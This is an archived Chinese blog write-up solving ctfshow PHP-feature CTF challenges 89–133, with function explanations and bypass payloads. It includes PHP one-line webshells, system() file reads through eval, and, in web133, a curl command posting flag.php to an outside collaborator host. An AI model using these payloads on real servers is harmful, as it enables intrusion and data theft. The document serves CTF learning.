


<!--yml
category: 未分类
date: 2022-04-26 14:37:52
-->

# ctf show-web入门 php特性篇部分题解_z.volcano的博客-CSDN博客_ctfshow的php特性

> 来源：[https://blog.csdn.net/weixin_45696568/article/details/113631173](https://blog.csdn.net/weixin_45696568/article/details/113631173)

# php特性

89-95基本都是考察一些php函数的作用及其绕过姿势，所以不记录具体题目做法，只把姿势记下来。

## preg_match()

此函数用于执行正则表达式匹配
**语法**:

```
int preg_match ( string $pattern , string $subject [, array &$matches [, int $flags = 0 [, int $offset = 0 ]]] ) 
```

参数说明：

*   $pattern: 要搜索的模式，字符串形式。

*   $subject: **输入字符串**。

*   $matches: 如果提供了参数matches，它将被填充为搜索结果。 $matches[0]将包含完整模式匹配到的文本， $matches[1] 将包含第一个捕获子组匹配到的文本，以此类推。

*   $flags：flags 可以被设置为以下标记值：
    PREG_OFFSET_CAPTURE: 如果传递了这个标记，对于每一个出现的匹配返回时会附加字符串偏移量(相对于目标字符串的)。 注意：这会改变填充到matches参数的数组，使其每个元素成为一个由 第0个元素是匹配到的字符串，第1个元素是该匹配字符串 在目标字符串subject中的偏移量。

*   offset: 通常，搜索从目标字符串的开始位置开始。可选参数 offset 用于 指定从目标字符串的某个未知开始搜索(单位是字节)。

**返回值(重点)**：
返回 pattern 的匹配次数。 它的值将是 0 次（不匹配）或 1 次，因为 preg_match() 在第一次匹配后 将会停止搜索。preg_match_all() 不同于此，它会一直搜索subject 直到到达结尾。 如果发生错误preg_match()返回 FALSE。

**绕过姿势**:
如果不按规定传一个字符串，通常是传一个数组进去，这样就会报错，从而返回false，达到我们的目的。

## intval()

intval() 函数用于获取变量的整数值。

intval() 函数通过使用指定的进制 base 转换（默认是十进制），返回变量 var 的 integer 数值。 intval() 不能用于 object，否则会产生 E_NOTICE 错误并返回 1。

**语法**:

```
int intval ( mixed $var [, int $base = 10 ] ) 
```

参数说明:

*   $var：要转换成 integer 的数量值。
*   $base：转化所使用的进制。

进制：

```
0??:八进制
0x??:十六进制
0b??:二进制 
```

当题目:

```
if(isset($_GET['num'])){
    $num = $_GET['num'];
    if($num==="4476"){
        die("no no no!");
    }
    if(intval($num,0)===4476){
        echo $flag;
    }else{
        echo intval($num,0);
    }
} 
```

可以通过这些方法绕过(从羽师傅那里学的):

```
intval('4476.0')===4476    小数点 
intval('+4476.0')===4476   正负号
intval('4476e0')===4476    科学计数法
intval('0x117c')===4476    16进制
intval('010574')===4476    8进制 
intval(' 010574')===4476   8进制+空格 
intval('0b1000101111100')===4476  2进制 
```

## web96(路径问题)

```
<?php
highlight_file(__FILE__);

if(isset($_GET['u'])){
    if($_GET['u']=='flag.php'){
        die("no no no");
    }else{
        highlight_file($_GET['u']);
    }
} 
```

payload：

```
php:
/var/www/html/flag.php              绝对路径
./flag.php                          相对路径
php: 
```

## web98

```
<?php

include("flag.php");
$_GET?$_GET=&$_POST:'flag';
$_GET['flag']=='flag'?$_GET=&$_COOKIE:'flag';
$_GET['flag']=='flag'?$_GET=&$_SERVER:'flag';
highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);

?> 
```

读源码的时候就懵了，有些东西是第一次见。

看了提示得知这题有两个考点:[三元运算符](https://www.php.cn/php-weizijiaocheng-383293.html)和[传址(引用)](https://www.php.cn/php-notebook-172859.html)。

三元运算符在c语言里学过，不难理解
**三元运算符语法：条件 ? 结果1 : 结果2**
说明：问号前面的位置是判断的条件，如果满足条件时执行结果1，不满足时执行结果2。

这句代码可以展开

```
$_GET?$_GET=&$_POST:'flag'; 
```

一旦用get方法传入参数，就会把get方法改为post方法，这里达到了修改get方法地址的目的

```
if($_GET){
$_GET=&$_POST;
址)
}else{
"flag";
} 
```

中间两行代码不需要考虑，因为不提交 flag 参数，只要在用get方法传入参数的基础上再post传 **HTTP_FLAG=flag**，即可得到flag。

## web99(in_array弱类型比较)

源码:

```
<?php

highlight_file(__FILE__);
$allow = array();    
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));  
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}

?> 
```

这题突破点在in_array()函数

### in_array()

in_array：(PHP 4, PHP 5, PHP 7)

功能：检查数组中是否存在某个值

定义： bool in_array ( mixed $needle , array $haystack [, bool $strict = FALSE ] )

在 $haystack中搜索 $needle，**如果第三个参数 $strict的值为 TRUE，则 in_array()函数会进行强检查**，检查 $needle的类型是否和 $haystack中的相同。如果找到 $haystack，则返回 TRUE，否则返回 FALSE。

很明显，这题再使用in_array()函数时并没有设置第三个参数为TRUE,所以此时是==的弱类型比较。

**绕过方法:**
传入n=1.php。因为PHP在使用 in_array()函数判断时，会将 1.php强制转换成数字1，而数字1在 range(1,24)数组中，当随机生成的数字正好是1时绕过 in_array()函数判断，导致任意文件上传漏洞。

payload:

```
?n=1.php   
post:   content=<?php eval($_POST[1]);?> 
```

多试几次，直到不报错的那一次，说明成功传入一句话。

然后访问`https://url/1.php`,再post传入`1=system('ls');`

再访问这个flag36d.php,即post: 1=`system('cat flag36d.php');`

然后在网页源码中看到flag

## web100

源码：

```
<?php
highlight_file(__FILE__);
include("ctfshow.php");

$ctfshow = new ctfshow();
$v1=$_GET['v1'];
$v2=$_GET['v2'];
$v3=$_GET['v3'];
$v0=is_numeric($v1) and is_numeric($v2) and is_numeric($v3);
if($v0){
    if(!preg_match("/\;/", $v2)){
        if(preg_match("/\;/", $v3)){
            eval("$v2('ctfshow')$v3");
        }
    }  
} 
```

很明显要get传入三个参数，并且保证`is_numeric($v1) and is_numeric($v2) and is_numeric($v3)`的结果是True，才能继续执行，也就是v1和v2和v3中至少有一个是数字就行。

第二部分:
因为源码中给了提示 ：`flag in class ctfshow;`，所以输出一个新的"ctfshow"类，构造:`?v1=1&v2=echo new ReflectionClass&v3=;`

得到 `flag_is_bde4fb430x2d62590x2d404f0x2dbaa30x2da2d6bd94ed98`
把ox2d换成`-`，再套上{}即可

注意这里v3只能包含`;`，可以是多个叠加，但不能有其他字符。

利用var_dump的解法：

### var_dump()函数

var_dump() 函数用于输出变量的相关信息。

构造:

```
v1=1&v2=var_dump($ctfshow);
v1=1&v2=var_dump($ctfshow)&v3=; 
```

两种方法均可，原理是直接打印ctfshow类的信息。

## web101

这题在web100的基础上过滤了很多东西

但是直接:`?v1=1&v2=echo new ReflectionClass&v3=;`可以得到flag

## web102-103

### hex2bin()函数

**作用**:把十六进制值转换为 ASCII 字符

### substr() 函数

语法:**substr(string,start,length)**
如：

```
<?php
echo substr("Hello world",6);
?> 
```

则输出从第六位开始，即输出"world"

### call_user_func()函数

语法:**call_user_func(PHP 4, PHP 5, PHP 7)**

第一个参数作为回调函数调用,其余参数是回调函数的参数。

源码:

```
<?php

highlight_file(__FILE__);
$v1 = $_POST['v1'];
$v2 = $_GET['v2'];
$v3 = $_GET['v3'];
$v4 = is_numeric($v2) and is_numeric($v3);
if($v4){
    $s = substr($v2,2);
    $str = call_user_func($v1,$s);
    echo $str;
    file_put_contents($v3,$str);
}
else{
    die('hacker');
}
?> 
```

is_numeric在php5的环境中，是可以识别十六进制的。

先把一句话编码成十六进制传给v2:
`<?php eval($_POST[1]);?>`变为`0x3c3f706870206576616c28245f504f53545b315d293b3f3e`

构造:

```
?v2=0x3c3f706870206576616c28245f504f53545b315d293b3f3e&v3=1.php
v1=hex2bin 
```

但是没有成功写入，参考了大佬的博客，得知这里的版本可能是php7，这一串十六进制不能被is_numeric()识别成数字，v2必须由纯数字构成。

这里用大佬的payload:

```
$a='<?=`cat *`;';
$b=base64_encode($a);  
$c=bin2hex($b);      
输出   5044383959474e6864434171594473

带e的话会被认为是科学计数法，可以通过is_numeric检测。
大家可以尝试下去掉=和带着=的base64解码出来的内容是相同的。因为等号在base64中只是起到填充的作用，不影响具体的数据内容。 
```

同时因为经过substr处理，所以v2前面还要补两位任意数字，这里使用00

最终构造:
`v2=005044383959474e6864434171594473&v3=php://filter/write=convert.base64-decode/resource=1.php post: v1=hex2bin`

访问1.php，查看源码得到flag

## web104、106

数组绕过

## web105(双$$变量覆盖)

```
<?php

highlight_file(__FILE__);
include('flag.php');
error_reporting(0);
$error='你还想要flag嘛？';
$suces='既然你想要那给你吧！';
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value;    
}foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;  
}
if(!($_POST['flag']==$flag)){
    die($error);
}
echo "your are good".$flag."\n";
die($suces);

?> 
```

hint中给出的解法是:

```
GET: ?suces=flag POST: error=suces 
```

先分析这个get请求:

```
foreach($_GET as $key => $value){
    if($key==='error'){
        die("what are you doing?!");
    }
    $$key=$$value; 
```

再看post请求:

```
foreach($_POST as $key => $value){
    if($value==='flag'){
        die("what are you doing?!");
    }
    $$key=$$value;
} 
```

所以能成功回显出flag

可以看到在这个过程中,suces变量只是起到了一个传递的作用，所以可以被任意替换，即

```
GET: ?a=flag POST: error=a 
```

也可以达到目的

## web107(parse_str变量覆盖)

### parse_str()

parse_str() 函数把查询字符串解析到变量中。
**注释**:如果未设置 array 参数，则由该函数设置的变量将覆盖已存在的同名变量。

**注释**:php.ini 文件中的 magic_quotes_gpc 设置影响该函数的输出。如果已启用，那么在 parse_str() 解析之前，变量会被 addslashes() 转换。

### Parse_str()函数引起的变量覆盖漏洞

> parse_str() 函数用于把查询字符串解析到变量中，如果没有array 参数，则由该函数设置的变量将覆盖已存在的同名变量。 极度不建议 在没有 array参数的情况下使用此函数，并且在 PHP 7.2 中将废弃不设置参数的行为。此函数没有返回值

要得到flag，需要v2中flag的值与传入v3的md5的值相同:

①正常构造:

```
get：?v3=1
post:v1=flag=c4ca4238a0b923820dcc509a6f75849b 
```

②md5绕过:

构造`get: ?v3=0`,传入flag的值md5解密后，开头两位为`0e`即可，经过php处理后会认为0*10^n。所以结果为零，符合条件。

[md5开头为0e的字符串](https://blog.csdn.net/weixin_43803070/article/details/91308414)

## web108(%00截断)

### ereg()函数

ereg()函数用指定的模式搜索一个字符串中指定的字符串,如果匹配成功返回true,否则,则返回false。搜索字母的字符是大小写敏感的。

可选的输入参数规则包含一个数组的所有匹配表达式,他们被正则表达式的括号分组。

```
<?php

highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

if (ereg ("^[a-zA-Z]+$", $_GET['c'])===FALSE)  {
    die('error');

}

if(intval(strrev($_GET['c']))==0x36d){
    echo $flag;
}

?> 
```

这题限制c只能是**一个或多个大小写字母**。

### strrev()函数

strrev() 函数反转字符串。

### intval()函数

intval() 函数用于获取变量的整数值。

这题同时又要求c反转后与0x36d相等，同时满足这两点，需要用到%00截断。

最终payload:

```
?c=a%00778 
```

```
<?php
highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/[a-zA-Z]+/', $v1) && preg_match('/[a-zA-Z]+/', $v2)){
            eval("echo new $v1($v2());");
    }
}
?> 
```

具体原理还不是很清楚。

payload:

```
?v1=Exception&v2=system('cat fl36dg.txt')
?v1=ReflectionClass&v2=system('cat fl36dg.txt') 
```

## web110

```
<?php

highlight_file(__FILE__);
error_reporting(0);
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

}

?> 
```

**payload:**

```
?v1=FilesystemIterator&v2=getcwd 
```

构造后回显一个`fl36dga.txt`，访问得到flag

**原理：**

### FilesystemIterator

获取指定目录下的所有文件

### getcwd()函数

获取当前工作目录 返回当前工作目录

## web111

```
<?php

highlight_file(__FILE__);
error_reporting(0);
include("flag.php");

function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}

if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }

    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
}

?> 
```

这里给v1和v2赋值，然后v2的值又会赋给v1，覆盖v1原来的值

### 超全局变量$GLOBALS

官方说明

> 1.  $GLOBALS — 引用全局作用域中可用的全部变量。
> 2.  一个包含了全部变量的全局组合数组。变量的名字就是数组的键。
> 3.  即出现过的全局变量，就可以通过$GLOBALS这个数组取得。
> 4.  PHP生命周期中，定义在函数体外部的所谓全局变量，函数内部是不能直接获得的。

payload: `?v1=ctfshow&v2=GLOBALS`

## web112

```
<?php

highlight_file(__FILE__);
error_reporting(0);
function filter($file){
    if(preg_match('/\.\.\/|http|https|data|input|rot13|base64|string/i',$file)){
        die("hacker!");
    }else{
        return $file;
    }
}
$file=$_GET['file'];
if(! is_file($file)){
    highlight_file(filter($file));
}else{
    echo "hacker!";
} 
```

直接用filter伪协议读取文件即可:

```
?file=php: 
```

## web113

和web112相比，多了一个限制条件`filter`

这里可以用web112给出的姿势

```
?file=compress.zlib: 
```

这题给出的预期解有点难懂

```
?file=/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/p
roc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/pro
c/self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/
self/root/proc/self/root/proc/self/root/proc/self/root/proc/self/root/proc/se
lf/root/proc/self/root/var/www/html/flag.php 
```

大佬的解释是:**超过20次软连接后就可以绕过is_file**

## web114

这题把compress这些过滤了，但是把filter放出来了。。。

```
function filter($file){
    if(preg_match('/compress|root|zip|convert|\.\.\/|http|https|data|data|rot13|base64|string/i',$file)){
        die('hacker!');
    }else{
        return $file;
    }
} 
```

直接读:

```
?file=php: 
```

## web115

火霸天小姐姐出的题目，这题开始考察新内容了

```
<?php

include('flag.php');
highlight_file(__FILE__);
error_reporting(0);
function filter($num){
    $num=str_replace("0x","1",$num);
    $num=str_replace("0","1",$num);
    $num=str_replace(".","1",$num);
    $num=str_replace("e","1",$num);
    $num=str_replace("+","1",$num);
    return $num;
}
$num=$_GET['num'];
if(is_numeric($num) and $num!=='36' and trim($num)!=='36' and filter($num)=='36'){
    if($num=='36'){
        echo $flag;
    }else{
        echo "hacker!!";
    }
}else{
    echo "hacker!!!";
} hacker!!! 
```

### trim函数

语法 `trim(string,charlist)`
参数

> string —必需。规定要检查的字符串。
> charlist—可选。规定从字符串中删除哪些字符。如果省略该参数，则移除下列所有字符：
> “\0” - NULL
> “\t” - 制表符
> “\n” - 换行
> “\x0B” - 垂直制表符
> “\r” - 回车
> " " - 空格

trim+is_numeric的测试:

```
<?php
for ($i=0; $i <=128 ; $i++) { 
    $x=chr($i).'1';
   if(trim($x)!=='1' &&  is_numeric($x)){
        echo urlencode(chr($i))."\n";
   }
}
?> 
```

可利用的只剩`%0c`了

payload:`num=%0c36`

## web123

```
<?php

error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
$a=$_SERVER['argv'];
$c=$_POST['fun'];
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])){
    if(!preg_match("/\\\\|\/|\~|\`|\!|\@|\#|\%|\^|\*|\-|\+|\=|\{|\}|\"|\'|\,|\.|\;|\?/", $c)&&$c<=18){
         eval("$c".";");  
         if($fl0g==="flag_give_me"){
             echo $flag;
         }
    }
}
?> 
```

一个难点是这里

```
if(isset($_POST['CTF_SHOW'])&&isset($_POST['CTF_SHOW.COM'])&&!isset($_GET['fl0g'])) 
```

PHP变量名由**数字字母下划线**组成，是没有`.`的

这里从[大佬的文章](https://blog.csdn.net/weixin_45551083/article/details/110574834?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522161110474016780277072722%2522%252C%2522scm%2522%253A%252220140713.130102334.pc%255Fall.%2522%257D&request_id=161110474016780277072722&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_v2~rank_v29-9-110574834.pc_search_result_no_baidu_js&utm_term=ctfshow%20php%E7%89%B9%E6%80%A7&spm=1018.2226.3001.4187)了解到，GET或POST方式传进去的变量名,会自动将`空格 + . [`转换为`_`。

有一种特殊情况，特殊字符`[`GET或POST方式传参时,变量名中的`[`也会被替换为`_`,但**其后的字符就不会被替换了**
如 CTF`[`SHOW.COM=>CTF`_`SHOW.COM

**payload**

```
POST: CTF_SHOW=&CTF[SHOW.COM=&fun=echo $flag 
```

很明显这个解是非预期的，也不是通过正常步骤得到flag的

出题人的**预期解**

```
get: a=1+fl0g=flag_give_me
post: CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1]) 
```

这里用羽师傅测试的例子

```
<?php
$a=$_SERVER['argv'];
var_dump($a);

传入 a=1+fl0g=flag_give_me
结果如下
array(2) { [0]=> string(3) "a=1" [1]=> string(17) "fl0g=flag_give_me" } 
```

## web125

payload

```
GET:?1=flag.php 
POST:CTF_SHOW=&CTF[SHOW.COM=&fun=highlight_file($_GET[1]) 
```

## web126

这题的姿势同web124的预期解，即

```
get: a=1+fl0g=flag_give_me
post: CTF_SHOW=&CTF[SHOW.COM=&fun=parse_str($a[1]) 
```

## web127

```
<?php

error_reporting(0);
include("flag.php");
highlight_file(__FILE__);
$ctf_show = md5($flag);
$url = $_SERVER['QUERY_STRING'];

function waf($url){
    if(preg_match('/\`|\~|\!|\@|\#|\^|\*|\(|\)|\\$|\_|\-|\+|\{|\;|\:|\[|\]|\}|\'|\"|\<|\,|\>|\.|\\\|\//', $url)){
        return true;
    }else{
        return false;
    }
}

if(waf($url)){
    die("嗯哼？");
}else{
    extract($_GET);
}

if($ctf_show==='ilove36d'){
    echo $flag;
} 
```

过滤了`_`，绕过方式还是同web123

payload:

```
?ctf show=ilove36d 
```

## web128

```
<?php

error_reporting(0);
include("flag.php");
highlight_file(__FILE__);

$f1 = $_GET['f1'];
$f2 = $_GET['f2'];

if(check($f1)){
    var_dump(call_user_func(call_user_func($f1,$f2)));
}else{
    echo "嗯哼？";
}

function check($str){
    return !preg_match('/[0-9]|[a-z]/i', $str);
} 
```

### gettext()拓展的应用

很骚的一个操作，参考文章:

> [关于php中gettext的用法？](https://www.cnblogs.com/lost-1987/articles/3309693.html)
> [Gettext](https://www.php.net/manual/zh/book.gettext.php)

在开启该拓展后 _() 等效于 gettext(),如

```
<?php
echo gettext("phpinfo");
结果  phpinfo

echo _("phpinfo");
结果 phpinfo 
```

### call_user_func()函数

```
call_user_func ( callable $callback [, mixed $parameter [, mixed $... ]] ) 
```

**解释:**

> 第一个参数 callback 是被调用的回调函数，其余参数是回调函数的参数。

所以`call_user_func('_','phpinfo')`相当于`gettext("phpinfo")`

这题可以利用get_defined_vars

```
get_defined_vars() 函数返回由所有已定义变量所组成的数组。 
```

payload:`?f1=_&f2=get_defined_vars`

## web129

```
<?php

error_reporting(0);
highlight_file(__FILE__);
if(isset($_GET['f'])){
    $f = $_GET['f'];
    if(stripos($f, 'ctfshow')>0){
        echo readfile($f);
    }
} 
```

### stripos() 函数

查找字符串在另一字符串中第一次出现的位置（不区分大小写）
**语法：**`stripos(string,find,start)`

> string–必需。规定被搜索的字符串。
> find–必需。规定要查找的字符。
> start–可选。规定开始搜索的位置。
> 返回值:
> 返回字符串在另一字符串中第一次出现的位置，如果没有找到字符串则返回 FALSE。注释：字符串位置从 0 开始，不是从 1 开始。

这题让get传参进去，如果构造的`f`中有`ctfshow`则执行`readfile`函数，所以同时还要不影响flag.php的读取

多种姿势

```
?f=php:
?f=php:
?f=/ctfshow/../../../../var/www/html/flag.php
?f=./ctfshow/../flag.php 
```

## web130

```
<?php

error_reporting(0);
highlight_file(__FILE__);
include("flag.php");
if(isset($_POST['f'])){
    $f = $_POST['f'];

    if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    }
    if(stripos($f, 'ctfshow') === FALSE){
        die('bye!!');
    }

    echo $flag;

} 
```

这个题也挺骚的，有很多种解法，首先是`利用正则最大回溯次数绕过`

### 正则最大回溯次数绕过

**回溯现象：**

> PHP中，为了防止一次正则匹配调用的匹配过程过大从而造成过多的资源消耗，限定了一次正则匹配中调用匹配函数的次数。 回溯主要有两种
> 贪婪模式下，pattern部分被匹配，但是后半部分没匹配（匹配“用力过猛”，把后面的部分也匹配过了）时匹配式回退的操作，在出现*、+时容易产生。
> 非贪婪模式下，字符串部分被匹配，但后半部分没匹配完全（匹配“用力不够”，需要通配符再匹配一定的长度），在出现*?、+?时容易产生。

当传入字符串在正则匹配时回溯次数超过限制（默认1000000，可调整）时，会报错返回false

关于这种方法，题目中也给出了提示

> very very very（省略25万个very）ctfshow

**payload(py脚本):**

```
import requests
url="http://07b28eb7-15d4-4250-be72-33a58b73dba1.chall.ctf.show/"
data={
	'f':'very'*250000+'ctfshow'
}
r=requests.post(url,data=data)
print(r.text) 
```

执行后，因为超出了`preg_match`的回溯次数，报错返回false，达到绕过的效果，同时因为POST传入的`f`中有`ctfshow`，第二个判断也被绕过，输出flag

还有两个比较强的姿势…
首先是hint中给出的`f=ctfshow`，因为在第一个正则匹配中

```
if(preg_match('/.+?ctfshow/is', $f)){
        die('bye!');
    } 
```

`.`表示`任意单个字符`，`+`表示`必须匹配1次或多次`，`+?`表示 `重复1次或更多次，但尽可能少重复`

所以在ctfshow前面必须有至少一个字符，才会返回True

还有一种姿势是`数组绕过`，传入数组时，stripos会返回`null`，`null!=false`

payload:

```
POST:f=ctfshow
POST:f[]=a 
```

## web131

考察**正则最大回溯次数绕过**，用上题的第一个姿势(记得把`ctfshow` 改成`36Dctfshow`)

## web132

打开了一个奇怪的界面

查看robots.txt发现提示,访问得到源码

> Disallow: /admin

```
<?php

include("flag.php");
highlight_file(__FILE__);

if(isset($_GET['username']) && isset($_GET['password']) && isset($_GET['code'])){
    $username = (String)$_GET['username'];
    $password = (String)$_GET['password'];
    $code = (String)$_GET['code'];

    if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin"){

        if($code == 'admin'){
            echo $flag;
        }

    }
} 
```

### mt_rand()

用于生成随机数

注意这个判断式
`if($code === mt_rand(1,0x36D) && $password === $flag || $username ==="admin")`

这里三个都是`强等于`，不像`弱等于`一样好绕过，而且前两个条件可以说是不可能同时达成的,这里是利用了比较符的优先级

所以即使前两个条件不满足，只要第三个条件`username==="admin"`满足即可,同时令code=admin即可输出flag

payload:`?username=admin&code=admin&password=1`

## web133

```
<?php

error_reporting(0);
highlight_file(__FILE__);

if($F = @$_GET['F']){
    if(!preg_match('/system|nc|wget|exec|passthru|netcat/i', $F)){
        eval(substr($F,0,6));
    }else{
        die("6个字母都还不够呀?!");
    }
} 
```

限制执行前6个字符，这题参考[Firebasky师傅的wp](https://blog.csdn.net/qq_46091464/article/details/109095382)，又是新姿势，具体的原理看师傅的博客。

先打开burp，获得一个域名

payload：

```
?F=`$F`;+curl -X POST -F xx=@flag.php  http://r2ubea89bi2uhy4pkgqb7rdcc3iw6l.burpcollaborator.net 
```

然后回来刷新，过一会就能得到flag了
